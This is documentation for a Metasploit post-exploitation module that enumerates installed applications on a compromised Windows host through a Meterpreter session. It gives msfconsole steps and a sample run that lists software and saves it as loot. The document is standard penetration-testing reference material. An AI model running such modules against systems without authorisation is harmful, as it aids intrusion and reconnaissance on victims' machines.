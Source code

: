 ## Vulnerable Application

This module will enumerate all installed applications on a Windows system.

## Verification Steps
  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/enum_applications`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

  ```
  SESSION
  ```
  The session to run this module on.

## Scenarios

### A run on Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:49178) at 2019-12-10 14:18:44 -0700

  msf exploit(windows/smb/group_policy_startup) > use post/windows/gather/enum_applications
  msf post(windows/gather/enum_applications) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/enum_applications) > run

    [*] Enumerating applications installed on PC

    Installed Applications
    ======================

      Name                Version
      ----                -------
      PuTTY release 0.73  0.73.0.0
      PuTTY release 0.73  0.73.0.0


    [+] Results stored in: /root/.msf4/loot/20191211092812_default_192.168.1.4_host.application_951840.txt
    [*] Post module execution completed
    ```
